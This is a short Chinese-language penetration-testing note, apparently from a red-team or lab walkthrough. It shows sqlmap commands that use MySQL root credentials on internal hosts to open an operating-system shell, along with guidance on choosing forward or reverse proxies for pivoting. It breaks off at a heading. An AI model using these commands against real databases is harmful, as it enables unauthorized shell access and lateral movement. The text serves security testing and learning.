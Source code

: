 ![](/img/04/拓补图01.png)


# 数据库提权

尝试使用sqlmap提权

kali 下

```bash
proxychains sqlmap -d "mysql://root:123456@10.10.20.231:3306/mysql" --os-shell
```

Windows下,先安装数据库适配器，然后运行sqlmap

```bash
pip install PyMySQL -i https://mirrors.aliyun.com/pypi/simple/
python sqlmap.py -d "mysql://root:123456@10.10.20.166:3306/mysql" --os-shell
```

# 代理判断方式

选择正向代理还是反向代理

判断依据：需要代理的机器是否出网 

是：反向代理
否：正向代理

判断是否出网可以使用 `ping`, `curl`, `wget` 等命令

nps特殊性：网段不冲突的情况下支持多客户端公用


## 正向代理
